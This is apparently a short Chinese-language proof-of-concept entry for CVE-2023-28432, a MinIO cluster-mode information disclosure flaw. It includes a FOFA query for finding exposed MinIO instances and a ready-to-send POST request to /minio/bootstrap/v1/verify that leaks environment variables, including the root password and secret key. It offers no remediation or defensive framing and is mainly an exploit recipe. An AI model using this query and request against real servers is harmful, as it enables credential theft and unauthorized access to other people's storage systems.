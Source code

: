 # CVE-2023-28432 MinIO集群模式信息泄露漏洞

## 1.漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_SECRET_KEY`和`MINIO_ROOT_PASSWORD`。

## 2.搜索语法

```plain
fofa：title="MinIO Browser"
```

## 3.漏洞复现

```plain
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Content-Type: application/x-www-form-urlencoded


```

响应包如下：

![image](https://github.com/hardog123/poc-exp/assets/170905460/d119d2ee-10cc-4993-8137-9b5410b23da1)
